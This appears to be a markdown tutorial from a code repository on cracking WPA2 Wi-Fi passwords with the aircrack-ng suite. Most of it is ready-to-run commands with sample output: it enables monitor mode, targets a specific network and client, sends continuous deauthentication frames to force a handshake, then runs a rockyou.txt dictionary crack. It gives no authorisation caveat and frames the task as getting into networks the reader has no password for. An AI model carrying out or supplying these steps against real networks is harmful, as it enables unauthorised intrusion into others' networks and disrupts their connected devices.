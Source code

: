 # Wifi password recover

Normally the wifi has some password that we either don't have or forgot. So, let's see some techniques to discover them.

# [Aircrack-ng suite](https://www.aircrack-ng.org/)

The first used tool for wi-fi craking is the Aircrack tool that exploits the auth processes of a network seeking for vunerabilities that potentially end up in a successfull attack.

So, in the following chapters we're going to see some common approachs.

## WPA Attack - Four way handshake

Requirements:

- A device connected to a newtork
- A wireless adapter that supports monitor mode

So, given the requirements, we are going to first see the wireless adapter with 

> ip link show

So, you see the connected wireless adapters and if they're up or not. So, you can now change this adapter to monitor mode using the *airmon-ng* tool:

> sudo airmon-ng start wlan0

You could've used any wireless adapter instead of *wlan0*, must notice only to pass the proper name.

Now that it's in monitor mode, you can scan all available networks:

> sudo airodump-ng wlan0mon

                                                                              
 BSSID            |    PWR    | Beacons |#Data | #/s | CH |  MB | ENC  | CIPHER | AUTH |  ESSID  
------------------|-----------|---------|------|-----|----|-----|------|--------|------|---------
00:1A:3F:B8:09:2A |    -126   |    6    |   0  |  0  | 11 | 135 | WPA2 |  CCMP  | PSK  | keisynet

Now you should target the desired nework, and look for connected devices.

> sudo airodump-ng wlan0mon -d 00:1A:3F:B8:09:2A

CH  1 ][ Elapsed: 24 s ][ 2022-09-01 13:20                                                      
                                                                                                 
BSSID             | PWR |  Beacons   |  #Data,|  #/s |  CH |   MB  |  ENC | CIPHER |  AUTH |  ESSID                 
------------------|-----|------------|--------|------|-----|-------|------|--------|-------|---------                       
00:1A:3F:B8:09:2A | -40 |    28      |  56    |  25  |  11 |  135  | WPA2 |  CCMP  |  PSK  | keisynet              

BSSID             | STATION           |         PWR |  Rate    | Lost  | Frames | Notes |  Probes               
------------------|-------------------|-------------|----------|-------|--------|-------|---------|
00:1A:3F:B8:09:2A | 2E:F1:40:00:E9:2E |     -35     |  24e-24e | 2069  |     80                  

Now we're going to try to  write the thing.

> sudo airodump-ng -w hackei -c 11 --bssid 00:1A:3F:B8:09:2A wlan0mon

Now we have to try to disconnect any device that is connected on this network to recieve a WPA 4 wayo handshake from aircrack.

> sudo aireplay-ng --deauth 0 -a 00:1A:3F:B8:09:2A wlan0mon

After getting the handshacke on the airodump-ng command, we can stop the programs and stop monitor mode. Now we can try to crack the password using a dictionary of common passwords.

> aircrack-ng hackei-01.cap -w /rockyou.txt

It may take a while and, normaly, it's not gonna work at all. So, let's jump to the usage of other tools to see if we can crack it anyways.





